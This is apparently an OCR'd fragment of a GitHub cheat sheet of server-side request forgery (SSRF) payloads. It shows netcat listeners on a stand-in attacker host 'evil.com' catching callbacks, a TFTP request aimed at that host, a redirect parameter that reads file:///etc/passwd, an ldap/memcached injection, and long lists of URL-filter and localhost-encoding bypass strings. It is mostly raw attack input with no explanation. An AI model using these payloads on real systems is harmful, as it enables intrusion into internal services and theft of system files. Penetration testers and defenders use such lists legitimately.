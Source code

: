             evil.com:# nc -v -l 12346
            Listening on [0.0.0.0] (family 0, port 12346)
            Connection from [192.168.0.10] port 12346 [tcp/*] accepted (family 2, sport 49398)
            HI
            Multiline
            test
            
            # TFTP
            # http://safebuff.com/ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
            
            evil.com:# nc -v -u -l 12346
            Listening on [0.0.0.0] (family 0, port 12346)
            TESTUDPPACKEToctettsize0blksize512timeout6
            
            # file
            http://safebuff.com/redirect.php?url=file:///etc/passwd
            
            # ldap
            http://safebuff.com/redirect.php?url=ldap://localhost:11211/%0astats%0aquit
            
            # SSRF Bypasses
            ?url=http://safesite.com&site.com
            ?url=http://////////////site.com/
            ?url=http://site@com/account/edit.aspx
            ?url=http://site.com/account/edit.aspx
            ?url=http://safesite.com?.site.com
            ?url=http://safesite.com#.site.com
            ?url=http://safesite.com\.site.com/domain
            ?url=https://ⓈⒾⓉⒺ.ⓒⓞⓜ = site.com
            ?url=https://192.10.10.3/
            ?url=https://192.10.10.2?.192.10.10.3/
            ?url=https://192.10.10.2#.192.10.10.3/
            ?url=https://192.10.10.2\.192.10.10.3/
            ?url=http://127.0.0.1/status/
            ?url=http://localhost:8000/status/
            ?url=http://site.com/domain.php
            <?php
            header(‘Location: http://127.0.0.1:8080/status');
            ?>
            
            # Localhost bypasses
            0
            127.00.1
            127.0.01
            0.00.0
            0.0.00
            127.1.0.1
            127.10.1
            127.1.01
            0177.1
            0177.0001.0001
            0x0.0x0.0x0.0x0
            0000.0000.0000.0000
            0x7f.0x0.0x0.0x1
            0177.0000.0000.0001
            0177.0001.0000..0001